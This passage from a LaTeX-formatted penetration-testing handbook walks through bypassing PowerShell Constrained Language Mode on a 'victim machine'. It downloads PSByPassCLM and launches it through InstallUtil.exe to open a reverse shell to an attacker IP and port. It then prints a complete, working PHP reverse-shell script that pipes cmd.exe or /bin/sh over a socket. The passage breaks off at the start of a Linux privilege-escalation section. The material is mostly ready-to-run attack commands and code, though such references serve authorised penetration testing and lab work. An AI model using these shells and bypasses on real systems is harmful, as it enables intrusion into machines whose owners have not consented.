\section*{Bypass Constraint Language in a PowerShell}\label{bypass-constraint-language-in-a-powershell}}
\addcontentsline{toc}{section}{Bypass Constraint Language in a PowerShell}

It's possible that sometimes, when you gain access to a windows machine and you have a PowerShell, that this is on
\textbf{constraint language} context. In the victim machine, you can check that with the \texttt{\$ExecutionContext.SessionState.LanguageMode}
command.

With the use of \href{https://github.com/padovah4ck/PSByPassCLM}{PSByPassCLM}, by creating
a new reverse shell, you can bypass this context.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  clone the PSByPassCLM repository

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/padovah4ck/PSByPassCLM}
\end{Highlighting}
\end{Shaded}
\item
  Transfer PSByPassCLM.exe to the victim machine

  \begin{itemize}
  \item
    on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ PSByPassCLM/PSByPassCLM/PSBypassCLM/bin/x64/Debug}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{/PsByPassCLM.}\FunctionTok{exe}\NormalTok{ -OutFile c:\textbackslash{}temp\textbackslash{}psby.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Create the reverse connection

  \begin{itemize}
  \item
    on the attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
  \item
    on the victim machine

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}Windows\textbackslash{}Microsoft.}\FunctionTok{NET}\NormalTok{\textbackslash{}Framework64\textbackslash{}v4.}\FunctionTok{0}\NormalTok{.}\FunctionTok{30319}\NormalTok{\textbackslash{}InstallUtil.}\FunctionTok{exe}\NormalTok{ /logfile= /LogToConsole=true /revshell=true /rhost=10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{ /rport=443 /U c:\textbackslash{}temp\textbackslash{}psby.}\FunctionTok{exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

In the new shell session, if you write the \texttt{\$ExecutionContext.SessionState.LanguageMode}, you will be able to check if now you are in a \textbf{FullLanguage} context.

\hypertarget{shells-for-windows}{%
\section*{Shells for windows}\label{shells-for-windows}}
\addcontentsline{toc}{section}{Shells for windows}

\hypertarget{php}{%
\subsection*{PHP}\label{php}}
\addcontentsline{toc}{subsection}{PHP}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
\CommentTok{// Copyright (c) 2020 Ivan Šincek}
\CommentTok{// v2.3}
\CommentTok{// Requires PHP v5.0.0 or greater.}
\CommentTok{// Works on Linux OS, macOS, and Windows OS.}
\CommentTok{// See the original script at https://github.com/pentestmonkey/php-reverse-shell.}
\KeywordTok{class}\NormalTok{ Shell \{}
    \KeywordTok{private} \KeywordTok{$addr}\NormalTok{  = }\KeywordTok{null}\OtherTok{;}
    \KeywordTok{private} \KeywordTok{$port}\NormalTok{  = }\KeywordTok{null}\OtherTok{;}
    \KeywordTok{private} \KeywordTok{$os}\NormalTok{    = }\KeywordTok{null}\OtherTok{;}
    \KeywordTok{private} \KeywordTok{$shell}\NormalTok{ = }\KeywordTok{null}\OtherTok{;}
    \KeywordTok{private} \KeywordTok{$descriptorspec}\NormalTok{ = }\KeywordTok{array}\OtherTok{(}
        \DecValTok{0}\NormalTok{ => }\KeywordTok{array}\OtherTok{(}\StringTok{'pipe'}\OtherTok{,} \StringTok{'r'}\OtherTok{),} \CommentTok{// shell can read from STDIN}
        \DecValTok{1}\NormalTok{ => }\KeywordTok{array}\OtherTok{(}\StringTok{'pipe'}\OtherTok{,} \StringTok{'w'}\OtherTok{),} \CommentTok{// shell can write to STDOUT}
        \DecValTok{2}\NormalTok{ => }\KeywordTok{array}\OtherTok{(}\StringTok{'pipe'}\OtherTok{,} \StringTok{'w'}\OtherTok{)}  \CommentTok{// shell can write to STDERR}
    \OtherTok{);}
    \KeywordTok{private} \KeywordTok{$buffer}\NormalTok{  = }\DecValTok{1024}\OtherTok{;}    \CommentTok{// read/write buffer size}
    \KeywordTok{private} \KeywordTok{$clen}\NormalTok{    = }\DecValTok{0}\OtherTok{;}       \CommentTok{// command length}
    \KeywordTok{private} \KeywordTok{$error}\NormalTok{   = }\KeywordTok{false}\OtherTok{;}   \CommentTok{// stream read/write error}
    \KeywordTok{public} \KeywordTok{function} \FunctionTok{__construct}\OtherTok{(}\KeywordTok{$addr}\OtherTok{,} \KeywordTok{$port}\OtherTok{)}\NormalTok{ \{}
        \KeywordTok{$this}\NormalTok{->addr = }\KeywordTok{$addr}\OtherTok{;}
        \KeywordTok{$this}\NormalTok{->port = }\KeywordTok{$port}\OtherTok{;}
\NormalTok{    \}}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ detect}\OtherTok{()}\NormalTok{ \{}
        \KeywordTok{$detected}\NormalTok{ = }\KeywordTok{true}\OtherTok{;}
        \KeywordTok{if} \OtherTok{(}\FunctionTok{stripos}\OtherTok{(}\KeywordTok{PHP_OS}\OtherTok{,} \StringTok{'LINUX'}\OtherTok{)}\NormalTok{ !== }\KeywordTok{false}\OtherTok{)}\NormalTok{ \{ }\CommentTok{// same for macOS}
            \KeywordTok{$this}\NormalTok{->os    = }\StringTok{'LINUX'}\OtherTok{;}
            \KeywordTok{$this}\NormalTok{->shell = }\StringTok{'/bin/sh'}\OtherTok{;}
\NormalTok{        \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{(}\FunctionTok{stripos}\OtherTok{(}\KeywordTok{PHP_OS}\OtherTok{,} \StringTok{'WIN32'}\OtherTok{)}\NormalTok{ !== }\KeywordTok{false}\NormalTok{ || }\FunctionTok{stripos}\OtherTok{(}\KeywordTok{PHP_OS}\OtherTok{,} \StringTok{'WINNT'}\OtherTok{)}\NormalTok{ !== }\KeywordTok{false}\NormalTok{ || }\FunctionTok{stripos}\OtherTok{(}\KeywordTok{PHP_OS}\OtherTok{,} \StringTok{'WINDOWS'}\OtherTok{)}\NormalTok{ !== }\KeywordTok{false}\OtherTok{)}\NormalTok{ \{}
            \KeywordTok{$this}\NormalTok{->os    = }\StringTok{'WINDOWS'}\OtherTok{;}
            \KeywordTok{$this}\NormalTok{->shell = }\StringTok{'cmd.exe'}\OtherTok{;}
\NormalTok{        \} }\KeywordTok{else}\NormalTok{ \{}
            \KeywordTok{$detected}\NormalTok{ = }\KeywordTok{false}\OtherTok{;}
            \KeywordTok{echo} \StringTok{"SYS_ERROR: Underlying operating system is not supported, script will now exit...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \}}
        \KeywordTok{return} \KeywordTok{$detected}\OtherTok{;}
\NormalTok{    \}}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ daemonize}\OtherTok{()}\NormalTok{ \{}
        \KeywordTok{$exit}\NormalTok{ = }\KeywordTok{false}\OtherTok{;}
        \KeywordTok{if} \OtherTok{(}\NormalTok{!}\FunctionTok{function_exists}\OtherTok{(}\StringTok{'pcntl_fork'}\OtherTok{))}\NormalTok{ \{}
            \KeywordTok{echo} \StringTok{"DAEMONIZE: pcntl_fork() does not exists, moving on...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{((}\KeywordTok{$pid}\NormalTok{ = }\ErrorTok{@}\FunctionTok{pcntl_fork}\OtherTok{())}\NormalTok{ < }\DecValTok{0}\OtherTok{)}\NormalTok{ \{}
            \KeywordTok{echo} \StringTok{"DAEMONIZE: Cannot fork off the parent process, moving on...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{(}\KeywordTok{$pid}\NormalTok{ > }\DecValTok{0}\OtherTok{)}\NormalTok{ \{}
            \KeywordTok{$exit}\NormalTok{ = }\KeywordTok{true}\OtherTok{;}
            \KeywordTok{echo} \StringTok{"DAEMONIZE: Child process forked off successfully, parent process will now exit...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{(}\FunctionTok{posix_setsid}\OtherTok{()}\NormalTok{ < }\DecValTok{0}\OtherTok{)}\NormalTok{ \{}
            \CommentTok{// once daemonized you will actually no longer see the script's dump}
            \KeywordTok{echo} \StringTok{"DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \} }\KeywordTok{else}\NormalTok{ \{}
            \KeywordTok{echo} \StringTok{"DAEMONIZE: Completed successfully!}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \}}
        \KeywordTok{return} \KeywordTok{$exit}\OtherTok{;}
\NormalTok{    \}}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ settings}\OtherTok{()}\NormalTok{ \{}
        \ErrorTok{@}\FunctionTok{error_reporting}\OtherTok{(}\DecValTok{0}\OtherTok{);}
        \ErrorTok{@}\FunctionTok{set_time_limit}\OtherTok{(}\DecValTok{0}\OtherTok{);} \CommentTok{// do not impose the script execution time limit}
        \ErrorTok{@}\FunctionTok{umask}\OtherTok{(}\DecValTok{0}\OtherTok{);} \CommentTok{// set the file/directory permissions - 666 for files and 777 for directories}
\NormalTok{    \}}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ dump}\OtherTok{(}\KeywordTok{$data}\OtherTok{)}\NormalTok{ \{}
        \KeywordTok{$data}\NormalTok{ = }\FunctionTok{str_replace}\OtherTok{(}\StringTok{'<'}\OtherTok{,} \StringTok{'&lt;'}\OtherTok{,} \KeywordTok{$data}\OtherTok{);}
        \KeywordTok{$data}\NormalTok{ = }\FunctionTok{str_replace}\OtherTok{(}\StringTok{'>'}\OtherTok{,} \StringTok{'&gt;'}\OtherTok{,} \KeywordTok{$data}\OtherTok{);}
        \KeywordTok{echo} \KeywordTok{$data}\OtherTok{;}
\NormalTok{    \}}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ read}\OtherTok{(}\KeywordTok{$stream}\OtherTok{,} \KeywordTok{$name}\OtherTok{,} \KeywordTok{$buffer}\OtherTok{)}\NormalTok{ \{}
        \KeywordTok{if} \OtherTok{((}\KeywordTok{$data}\NormalTok{ = }\ErrorTok{@}\FunctionTok{fread}\OtherTok{(}\KeywordTok{$stream}\OtherTok{,} \KeywordTok{$buffer}\OtherTok{))}\NormalTok{ === }\KeywordTok{false}\OtherTok{)}\NormalTok{ \{ }\CommentTok{// suppress an error when reading from a closed blocking stream}
            \KeywordTok{$this}\NormalTok{->}\KeywordTok{error}\NormalTok{ = }\KeywordTok{true}\OtherTok{;}                            \CommentTok{// set global error flag}
            \KeywordTok{echo} \StringTok{"STRM_ERROR: Cannot read from }\KeywordTok{$\{name\}}\StringTok{, script will now exit...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \}}
        \KeywordTok{return} \KeywordTok{$data}\OtherTok{;}
\NormalTok{    \}}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ write}\OtherTok{(}\KeywordTok{$stream}\OtherTok{,} \KeywordTok{$name}\OtherTok{,} \KeywordTok{$data}\OtherTok{)}\NormalTok{ \{}
        \KeywordTok{if} \OtherTok{((}\KeywordTok{$bytes}\NormalTok{ = }\ErrorTok{@}\FunctionTok{fwrite}\OtherTok{(}\KeywordTok{$stream}\OtherTok{,} \KeywordTok{$data}\OtherTok{))}\NormalTok{ === }\KeywordTok{false}\OtherTok{)}\NormalTok{ \{ }\CommentTok{// suppress an error when writing to a closed blocking stream}
            \KeywordTok{$this}\NormalTok{->}\KeywordTok{error}\NormalTok{ = }\KeywordTok{true}\OtherTok{;}                            \CommentTok{// set global error flag}
            \KeywordTok{echo} \StringTok{"STRM_ERROR: Cannot write to }\KeywordTok{$\{name\}}\StringTok{, script will now exit...}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{        \}}
        \KeywordTok{return} \KeywordTok{$bytes}\OtherTok{;}
\NormalTok{    \}}
    \CommentTok{// read/write method for non-blocking streams}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ rw}\OtherTok{(}\KeywordTok{$input}\OtherTok{,} \KeywordTok{$output}\OtherTok{,} \KeywordTok{$iname}\OtherTok{,} \KeywordTok{$oname}\OtherTok{)}\NormalTok{ \{}
        \KeywordTok{while} \OtherTok{((}\KeywordTok{$data}\NormalTok{ = }\KeywordTok{$this}\NormalTok{->read}\OtherTok{(}\KeywordTok{$input}\OtherTok{,} \KeywordTok{$iname}\OtherTok{,} \KeywordTok{$this}\NormalTok{->buffer}\OtherTok{))}\NormalTok{ && }\KeywordTok{$this}\NormalTok{->write}\OtherTok{(}\KeywordTok{$output}\OtherTok{,} \KeywordTok{$oname}\OtherTok{,} \KeywordTok{$data}\OtherTok{))}\NormalTok{ \{}
            \KeywordTok{if} \OtherTok{(}\KeywordTok{$this}\NormalTok{->os === }\StringTok{'WINDOWS'}\NormalTok{ && }\KeywordTok{$oname}\NormalTok{ === }\StringTok{'STDIN'}\OtherTok{)}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->clen += }\FunctionTok{strlen}\OtherTok{(}\KeywordTok{$data}\OtherTok{);}\NormalTok{ \} }\CommentTok{// calculate the command length}
            \KeywordTok{$this}\NormalTok{->dump}\OtherTok{(}\KeywordTok{$data}\OtherTok{);} \CommentTok{// script's dump}
\NormalTok{        \}}
\NormalTok{    \}}
    \CommentTok{// read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)}
    \CommentTok{// we must read the exact byte length from a stream and not a single byte more}
    \KeywordTok{private} \KeywordTok{function}\NormalTok{ brw}\OtherTok{(}\KeywordTok{$input}\OtherTok{,} \KeywordTok{$output}\OtherTok{,} \KeywordTok{$iname}\OtherTok{,} \KeywordTok{$oname}\OtherTok{)}\NormalTok{ \{}
        \KeywordTok{$fstat}\NormalTok{ = }\FunctionTok{fstat}\OtherTok{(}\KeywordTok{$input}\OtherTok{);}
        \KeywordTok{$size}\NormalTok{ = }\KeywordTok{$fstat}\OtherTok{[}\StringTok{'size'}\OtherTok{];}
        \KeywordTok{if} \OtherTok{(}\KeywordTok{$this}\NormalTok{->os === }\StringTok{'WINDOWS'}\NormalTok{ && }\KeywordTok{$iname}\NormalTok{ === }\StringTok{'STDOUT'}\NormalTok{ && }\KeywordTok{$this}\NormalTok{->clen}\OtherTok{)}\NormalTok{ \{}
            \CommentTok{// for some reason Windows OS pipes STDIN into STDOUT}
            \CommentTok{// we do not like that}
            \CommentTok{// we need to discard the data from the stream}
            \KeywordTok{while} \OtherTok{(}\KeywordTok{$this}\NormalTok{->clen > }\DecValTok{0}\NormalTok{ && }\OtherTok{(}\KeywordTok{$bytes}\NormalTok{ = }\KeywordTok{$this}\NormalTok{->clen >= }\KeywordTok{$this}\NormalTok{->buffer }\OtherTok{?} \KeywordTok{$this}\NormalTok{->buffer }\OtherTok{:} \KeywordTok{$this}\NormalTok{->clen}\OtherTok{)}\NormalTok{ && }\KeywordTok{$this}\NormalTok{->read}\OtherTok{(}\KeywordTok{$input}\OtherTok{,} \KeywordTok{$iname}\OtherTok{,} \KeywordTok{$bytes}\OtherTok{))}\NormalTok{ \{}
                \KeywordTok{$this}\NormalTok{->clen -= }\KeywordTok{$bytes}\OtherTok{;}
                \KeywordTok{$size}\NormalTok{ -= }\KeywordTok{$bytes}\OtherTok{;}
\NormalTok{            \}}
\NormalTok{        \}}
        \KeywordTok{while} \OtherTok{(}\KeywordTok{$size}\NormalTok{ > }\DecValTok{0}\NormalTok{ && }\OtherTok{(}\KeywordTok{$bytes}\NormalTok{ = }\KeywordTok{$size}\NormalTok{ >= }\KeywordTok{$this}\NormalTok{->buffer }\OtherTok{?} \KeywordTok{$this}\NormalTok{->buffer }\OtherTok{:} \KeywordTok{$size}\OtherTok{)}\NormalTok{ && }\OtherTok{(}\KeywordTok{$data}\NormalTok{ = }\KeywordTok{$this}\NormalTok{->read}\OtherTok{(}\KeywordTok{$input}\OtherTok{,} \KeywordTok{$iname}\OtherTok{,} \KeywordTok{$bytes}\OtherTok{))}\NormalTok{ && }\KeywordTok{$this}\NormalTok{->write}\OtherTok{(}\KeywordTok{$output}\OtherTok{,} \KeywordTok{$oname}\OtherTok{,} \KeywordTok{$data}\OtherTok{))}\NormalTok{ \{}
            \KeywordTok{$size}\NormalTok{ -= }\KeywordTok{$bytes}\OtherTok{;}
            \KeywordTok{$this}\NormalTok{->dump}\OtherTok{(}\KeywordTok{$data}\OtherTok{);} \CommentTok{// script's dump}
\NormalTok{        \}}
\NormalTok{    \}}
    \KeywordTok{public} \KeywordTok{function}\NormalTok{ run}\OtherTok{()}\NormalTok{ \{}
        \KeywordTok{if} \OtherTok{(}\KeywordTok{$this}\NormalTok{->detect}\OtherTok{()}\NormalTok{ && !}\KeywordTok{$this}\NormalTok{->daemonize}\OtherTok{())}\NormalTok{ \{}
            \KeywordTok{$this}\NormalTok{->settings}\OtherTok{();}

            \CommentTok{// ----- SOCKET }\RegionMarkerTok{BEGIN}\CommentTok{ -----}
            \KeywordTok{$socket}\NormalTok{ = }\ErrorTok{@}\FunctionTok{fsockopen}\OtherTok{(}\KeywordTok{$this}\NormalTok{->addr}\OtherTok{,} \KeywordTok{$this}\NormalTok{->port}\OtherTok{,} \KeywordTok{$errno}\OtherTok{,} \KeywordTok{$errstr}\OtherTok{,} \DecValTok{30}\OtherTok{);}
            \KeywordTok{if} \OtherTok{(}\NormalTok{!}\KeywordTok{$socket}\OtherTok{)}\NormalTok{ \{}
                \KeywordTok{echo} \StringTok{"SOC_ERROR: }\KeywordTok{\{$errno\}}\StringTok{: }\KeywordTok{\{$errstr\}\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{            \} }\KeywordTok{else}\NormalTok{ \{}
                \FunctionTok{stream_set_blocking}\OtherTok{(}\KeywordTok{$socket}\OtherTok{,} \KeywordTok{false}\OtherTok{);} \CommentTok{// set the socket stream to non-blocking mode | returns 'true' on Windows OS}

                \CommentTok{// ----- SHELL }\RegionMarkerTok{BEGIN}\CommentTok{ -----}
                \KeywordTok{$process}\NormalTok{ = }\ErrorTok{@}\FunctionTok{proc_open}\OtherTok{(}\KeywordTok{$this}\NormalTok{->shell}\OtherTok{,} \KeywordTok{$this}\NormalTok{->descriptorspec}\OtherTok{,} \KeywordTok{$pipes}\OtherTok{,} \KeywordTok{null}\OtherTok{,} \KeywordTok{null}\OtherTok{);}
                \KeywordTok{if} \OtherTok{(}\NormalTok{!}\KeywordTok{$process}\OtherTok{)}\NormalTok{ \{}
                    \KeywordTok{echo} \StringTok{"PROC_ERROR: Cannot start the shell}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}
\NormalTok{                \} }\KeywordTok{else}\NormalTok{ \{}
                    \KeywordTok{foreach} \OtherTok{(}\KeywordTok{$pipes} \KeywordTok{as} \KeywordTok{$pipe}\OtherTok{)}\NormalTok{ \{}
                        \FunctionTok{stream_set_blocking}\OtherTok{(}\KeywordTok{$pipe}\OtherTok{,} \KeywordTok{false}\OtherTok{);} \CommentTok{// set the shell streams to non-blocking mode | returns 'false' on Windows OS}
\NormalTok{                    \}}

                    \CommentTok{// ----- WORK }\RegionMarkerTok{BEGIN}\CommentTok{ -----}
                    \KeywordTok{$status}\NormalTok{ = }\FunctionTok{proc_get_status}\OtherTok{(}\KeywordTok{$process}\OtherTok{);}
                    \ErrorTok{@}\FunctionTok{fwrite}\OtherTok{(}\KeywordTok{$socket}\OtherTok{,} \StringTok{"SOCKET: Shell has connected! PID: "}\NormalTok{ . }\KeywordTok{$status}\OtherTok{[}\StringTok{'pid'}\OtherTok{]}\NormalTok{ . }\StringTok{"}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{);}
                    \KeywordTok{do}\NormalTok{ \{}
                        \KeywordTok{$status}\NormalTok{ = }\FunctionTok{proc_get_status}\OtherTok{(}\KeywordTok{$process}\OtherTok{);}
                        \KeywordTok{if} \OtherTok{(}\FunctionTok{feof}\OtherTok{(}\KeywordTok{$socket}\OtherTok{))}\NormalTok{ \{ }\CommentTok{// check for end-of-file on SOCKET}
                            \KeywordTok{echo} \StringTok{"SOC_ERROR: Shell connection has been terminated}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;} \KeywordTok{break}\OtherTok{;}
\NormalTok{                        \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{(}\FunctionTok{feof}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{1}\OtherTok{])}\NormalTok{ || !}\KeywordTok{$status}\OtherTok{[}\StringTok{'running'}\OtherTok{])}\NormalTok{ \{                 }\CommentTok{// check for end-of-file on STDOUT or if process is still running}
                            \KeywordTok{echo} \StringTok{"PROC_ERROR: Shell process has been terminated}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;}   \KeywordTok{break}\OtherTok{;} \CommentTok{// feof() does not work with blocking streams}
\NormalTok{                        \}                                                                    }\CommentTok{// use proc_get_status() instead}
                        \KeywordTok{$streams}\NormalTok{ = }\KeywordTok{array}\OtherTok{(}
                            \StringTok{'read'}\NormalTok{   => }\KeywordTok{array}\OtherTok{(}\KeywordTok{$socket}\OtherTok{,} \KeywordTok{$pipes}\OtherTok{[}\DecValTok{1}\OtherTok{],} \KeywordTok{$pipes}\OtherTok{[}\DecValTok{2}\OtherTok{]),} \CommentTok{// SOCKET | STDOUT | STDERR}
                            \StringTok{'write'}\NormalTok{  => }\KeywordTok{null}\OtherTok{,}
                            \StringTok{'except'}\NormalTok{ => }\KeywordTok{null}
                        \OtherTok{);}
                        \KeywordTok{$num_changed_streams}\NormalTok{ = }\ErrorTok{@}\FunctionTok{stream_select}\OtherTok{(}\KeywordTok{$streams}\OtherTok{[}\StringTok{'read'}\OtherTok{],} \KeywordTok{$streams}\OtherTok{[}\StringTok{'write'}\OtherTok{],} \KeywordTok{$streams}\OtherTok{[}\StringTok{'except'}\OtherTok{],} \DecValTok{0}\OtherTok{);} \CommentTok{// wait for stream changes | will not wait on Windows OS}
                        \KeywordTok{if} \OtherTok{(}\KeywordTok{$num_changed_streams}\NormalTok{ === }\KeywordTok{false}\OtherTok{)}\NormalTok{ \{}
                            \KeywordTok{echo} \StringTok{"STRM_ERROR: stream_select() failed}\KeywordTok{\textbackslash{}n}\StringTok{"}\OtherTok{;} \KeywordTok{break}\OtherTok{;}
\NormalTok{                        \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{(}\KeywordTok{$num_changed_streams}\NormalTok{ > }\DecValTok{0}\OtherTok{)}\NormalTok{ \{}
                            \KeywordTok{if} \OtherTok{(}\KeywordTok{$this}\NormalTok{->os === }\StringTok{'LINUX'}\OtherTok{)}\NormalTok{ \{}
                                \KeywordTok{if} \OtherTok{(}\FunctionTok{in_array}\OtherTok{(}\KeywordTok{$socket}  \OtherTok{,} \KeywordTok{$streams}\OtherTok{[}\StringTok{'read'}\OtherTok{]))}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->rw}\OtherTok{(}\KeywordTok{$socket}  \OtherTok{,} \KeywordTok{$pipes}\OtherTok{[}\DecValTok{0}\OtherTok{],} \StringTok{'SOCKET'}\OtherTok{,} \StringTok{'STDIN'} \OtherTok{);}\NormalTok{ \} }\CommentTok{// read from SOCKET and write to STDIN}
                                \KeywordTok{if} \OtherTok{(}\FunctionTok{in_array}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{2}\OtherTok{],} \KeywordTok{$streams}\OtherTok{[}\StringTok{'read'}\OtherTok{]))}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->rw}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{2}\OtherTok{],} \KeywordTok{$socket}  \OtherTok{,} \StringTok{'STDERR'}\OtherTok{,} \StringTok{'SOCKET'}\OtherTok{);}\NormalTok{ \} }\CommentTok{// read from STDERR and write to SOCKET}
                                \KeywordTok{if} \OtherTok{(}\FunctionTok{in_array}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{1}\OtherTok{],} \KeywordTok{$streams}\OtherTok{[}\StringTok{'read'}\OtherTok{]))}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->rw}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{1}\OtherTok{],} \KeywordTok{$socket}  \OtherTok{,} \StringTok{'STDOUT'}\OtherTok{,} \StringTok{'SOCKET'}\OtherTok{);}\NormalTok{ \} }\CommentTok{// read from STDOUT and write to SOCKET}
\NormalTok{                            \} }\KeywordTok{else} \KeywordTok{if} \OtherTok{(}\KeywordTok{$this}\NormalTok{->os === }\StringTok{'WINDOWS'}\OtherTok{)}\NormalTok{ \{}
                                \CommentTok{// order is important}
                                \KeywordTok{if} \OtherTok{(}\FunctionTok{in_array}\OtherTok{(}\KeywordTok{$socket}\OtherTok{,} \KeywordTok{$streams}\OtherTok{[}\StringTok{'read'}\OtherTok{])}\CommentTok{/*------*/}\OtherTok{)}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->rw }\OtherTok{(}\KeywordTok{$socket}  \OtherTok{,} \KeywordTok{$pipes}\OtherTok{[}\DecValTok{0}\OtherTok{],} \StringTok{'SOCKET'}\OtherTok{,} \StringTok{'STDIN'} \OtherTok{);}\NormalTok{ \} }\CommentTok{// read from SOCKET and write to STDIN}
                                \KeywordTok{if} \OtherTok{((}\KeywordTok{$fstat}\NormalTok{ = }\FunctionTok{fstat}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{2}\OtherTok{]))}\NormalTok{ && }\KeywordTok{$fstat}\OtherTok{[}\StringTok{'size'}\OtherTok{])}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->brw}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{2}\OtherTok{],} \KeywordTok{$socket}  \OtherTok{,} \StringTok{'STDERR'}\OtherTok{,} \StringTok{'SOCKET'}\OtherTok{);}\NormalTok{ \} }\CommentTok{// read from STDERR and write to SOCKET}
                                \KeywordTok{if} \OtherTok{((}\KeywordTok{$fstat}\NormalTok{ = }\FunctionTok{fstat}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{1}\OtherTok{]))}\NormalTok{ && }\KeywordTok{$fstat}\OtherTok{[}\StringTok{'size'}\OtherTok{])}\NormalTok{ \{ }\KeywordTok{$this}\NormalTok{->brw}\OtherTok{(}\KeywordTok{$pipes}\OtherTok{[}\DecValTok{1}\OtherTok{],} \KeywordTok{$socket}  \OtherTok{,} \StringTok{'STDOUT'}\OtherTok{,} \StringTok{'SOCKET'}\OtherTok{);}\NormalTok{ \} }\CommentTok{// read from STDOUT and write to SOCKET}
\NormalTok{                            \}}
\NormalTok{                        \}}
\NormalTok{                    \} }\KeywordTok{while} \OtherTok{(}\NormalTok{!}\KeywordTok{$this}\NormalTok{->}\KeywordTok{error}\OtherTok{);}
                    \CommentTok{// ------ WORK }\RegionMarkerTok{END}\CommentTok{ ------}

                    \KeywordTok{foreach} \OtherTok{(}\KeywordTok{$pipes} \KeywordTok{as} \KeywordTok{$pipe}\OtherTok{)}\NormalTok{ \{}
                        \FunctionTok{fclose}\OtherTok{(}\KeywordTok{$pipe}\OtherTok{);}
\NormalTok{                    \}}
                    \FunctionTok{proc_close}\OtherTok{(}\KeywordTok{$process}\OtherTok{);}
\NormalTok{                \}}
                \CommentTok{// ------ SHELL }\RegionMarkerTok{END}\CommentTok{ ------}

                \FunctionTok{fclose}\OtherTok{(}\KeywordTok{$socket}\OtherTok{);}
\NormalTok{            \}}
            \CommentTok{// ------ SOCKET }\RegionMarkerTok{END}\CommentTok{ ------}

\NormalTok{        \}}
\NormalTok{    \}}
\NormalTok{\}}
\KeywordTok{echo} \StringTok{'<pre>'}\OtherTok{;}
\CommentTok{// change the host address and/or port number as necessary}
\KeywordTok{$sh}\NormalTok{ = }\KeywordTok{new}\NormalTok{ Shell}\OtherTok{(}\StringTok{'127.0.0.1'}\OtherTok{,} \DecValTok{9000}\OtherTok{);}
\KeywordTok{$sh}\NormalTok{->run}\OtherTok{();}
\KeywordTok{unset}\OtherTok{(}\KeywordTok{$sh}\OtherTok{);}
\CommentTok{// garbage collector requires PHP v5.3.0 or greater}
\CommentTok{// @gc_collect_cycles();}
\KeywordTok{echo} \StringTok{'</pre>'}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}

\hypertarget{part-privilege-escalation}{%
\part{Privilege Escalation}\label{part-privilege-escalation}}

\hypertarget{linux-machine}{%
\chapter*{Linux Machine}\label{linux-machine}}
\addcontentsline{toc}{chapter}{Linux Machine}

To check in which group the user is in the machine:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id} 
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[}!{]} NOTE: Checking groups can be interesting because sometimes groups are not related to the machine but related to tools like Docker, lxd or other.
\end{quote}

To look at the user privileges use:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Next enumerate SSUID privileges at system level:

\begin{Shaded}
\begin{Highlighting}[]
